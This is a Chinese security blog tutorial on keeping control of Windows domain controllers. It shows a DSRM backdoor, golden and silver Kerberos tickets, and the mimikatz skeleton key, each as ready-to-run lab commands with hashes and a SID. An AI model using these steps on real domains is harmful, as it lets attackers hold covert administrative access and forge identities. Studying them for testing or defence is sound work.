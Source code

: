 ```yaml
---
typora-root-url: ../../../static
title: "域控权限持久化"
date: 2021-05-24T17:07:36+08:00
draft: false
categories: ["security"]
---
```


## DSRM域后门
DSRM（Directory Service Restore Model，目录服务恢复模式）是windows域环境中域控的安全模式启动选项。每个域控都有一个DSRM账户（也就是本地管理员账号），再安装DC时创建，很少会被重置。

可以使用DSRM账号对域环境进行持久化操作。 **如果域控制器的系统版本为win2k08，则需要安装KB961320才能使用指定域账号的密码对DSRM的密码进行同步，win2k08后的系统需要安装此补丁。如果域控为win2k03，则不能使用DSRM域后门。** 使用DSRM后门的原理是： **可以将DSRM的密码同步为某个域内账号的密码** 。以下是实验步骤：

（1）首先使用mimikatz查看域内账号的NTLM Hash：

输入如下命令在域控内查看特定账号的NTLM Hash(非域管理员组)：

	mimikatz lsadump::lsa /path /name:win7

如下图所示：

![查看win7账号的NTLM Hash][p1]

（2）然后使用mimikatz通过SAM在域控中读取本地管理员NTLM Hash（DSRM）：

输入如下命令读取：

	mimikatz lsadump::sam

如下图所示：

![查看DSRM账号的NTLM Hash][p2]

（3）在域控中将DSRM账号和win7账号的NTLM Hash同步：

输入如下命令进行同步：

	NTDSUTIL "SET DSRM PASSWORD" "SYN FROM DOMAIN ACCOUNT win7" "q" "q"

如下图所示：

![同步DSRM账号][p3]

（4）查看DSRM是否同步成功：

再次通过mimikatz查看SAM文件得到DSRM的NTLM Hash：

	mimikatz lsadump::sam

发现和前面win7账号的NTLM Hash已经一样了：

![查看DSRM是否同步成功][p4]

（5）设置DSRM账号的登录权限：

输入如下命令设置任何情况下都可以使用DSRM登录域控制器：

	# Powershell下执行
	New-ItemProperty "hklm:\system\currentcontrolset\control\lsa\" -name "dsrmadminlogonbehavior" -value 2 -propertyType DWORD

如下图所示：

![修改DSRM的登录权限][p5]

（6）在低权限机器上，使用PTH DSRM登录域控：

![CS进行PTT][p6]

![CS进行PTT][p7]

## 黄金票据
- 如果krbtgt账号未重置修改，那么可以利用krbtgt账号伪造域内任意用户身份（一般伪造Administrator）；
- 黄金票据需要满足：伪造的管理员用户名、完整的域名、域SID、krbtgt的NTLM Hash或者AES-256；

（1）首先获取krbtgt的NTLM Hash：

在域控中输入如下命令获取krbtgt账号的NTLM Hash：

	mimikatz lsadump:dcsync /domain:pinger.testlab /user:krbtgt

如下所示：

![获取krbtgt的NTLM Hash][p8]

（2）获取域SID：

直接输入如下命令，即可查看域内所有账号的SID，去掉末尾的就是域的SID：

	wmic useraccount get name,sid,caption

如下图所示：

![获取SID][p9]

（3）获取域管账号：

输入如下命令获取：

	net group "domain admins" /domain

如下图所示：

![获取域管账号][p10]

（4）获取域名：

直接输入ipconfig /all就可以获取了；

（5）使用mimikatz生成黄金票据：

首先在低权限的机器上查看DC的C盘，提示“拒绝访问”：

![查看DC][p11]

然后在地权的机器上使用mimikatz生成黄金票据：

	mimikatz kerberos::golden /admin:Administrator /domain:pinger.testlab /sid:S-1-5-21-1981736034-2187932818-3398635097 /krbtgt:fca1ae5638a702c6e86dda451664a858 /ticket:Administrator.kiribi

如下图所示：

![mimikatz生成黄金票据][p12]

然后就是直接使用mimikatz导入票据进行PTT了：

![mimikatz导入黄金票据][p13]

最后在通过查看DC的C盘验证下权限：

![验证权限][p14]

也可以一步到位进行mimikatz生成黄金票据和导入进行PTT：

	mimikatz kerberos::golden /user:Administrator /domain:pinger.testlab /sid:S-1-5-21-1981736034-2187932818-3398635097 /krbtgt:fca1ae5638a702c6e86dda451664a858 /endin:480 /renewmax:10080 /ptt

## 白银票据
使用白银票据需要的条件如下所示：

- 域名；
- 域SID；
- 目标服务器的FQDN；
- 可利用的服务；
- 服务账号的NTLM Hash；
- 需要伪造的用户名；

以下是实验步骤：

（1）首先获取服务账号的NTLM Hash：

在域控中输入如下命令：

	mimikatz sekurlsa::logonpasswords

如下图所示，得到DC$的NTLM Hash：

![DC$ Hash][p15] 

（2）使用mimikatz生成白银票据：

首先在低权限的机器上查看DC的C盘，提示“拒绝访问”：

![查看DC的C盘][p16]

然后使用mimikatz生成CIFS服务的白银票据并导入内存：

	mimikatz kerberos::golden /domain:pinger.testlab /sid:S-1-5-21-1981736034-2187932818-3398635097 /target:dc.pinger.testlab /service:cifs /rc4:635260b8259e41feed71f6f0b0fd0f64 /user:Administrator /ptt

如下图所示：

![生成白银票据][p17]

测试以下访问DC的C盘，成功：

![测试][p18]

## 万能密码
- 微软在2014年在windows系统中添加了LSA保护策略，不能注入lsass.exe进程了；
- 向域控中注入万能密码，只能在64位系统中使用；
- 需要域管权限将万能密码注入到lsass.exe进程；
- 注入万能密码后，原有的密码仍然能登录系统；
- 重启后，万能密码失效；

以下是基于mimikatz的实验步骤：

（1）在域控中直接执行mimikatz，如下命令所示：
	
	mimikatz misc::skeleton

如下图所示：

![mimikatz注入万能密码][p19]

（2）然后直接在低权限的机器上尝试用万能密码登录：

万能密码为“mimikatz”，使用SMB登录，如下图所示：

![万能密码登录][p20]



[p1]:/media/2021-05-25-1.png
[p2]:/media/2021-05-25-2.png
[p3]:/media/2021-05-25-3.png
[p4]:/media/2021-05-25-4.png
[p5]:/media/2021-05-25-5.png
[p6]:/media/2021-05-25-6.png
[p7]:/media/2021-05-25-7.png
[p8]:/media/2021-05-25-8.png
[p9]:/media/2021-05-25-9.png
[p10]:/media/2021-05-25-10.png
[p11]:/media/2021-05-25-11.png
[p12]:/media/2021-05-25-12.png
[p13]:/media/2021-05-25-13.png
[p14]:/media/2021-05-25-14.png
[p15]:/media/2021-05-25-15.png
[p16]:/media/2021-05-25-16.png
[p17]:/media/2021-05-25-17.png
[p18]:/media/2021-05-25-18.png
[p19]:/media/2021-05-25-19.png
[p20]:/media/2021-05-25-20.png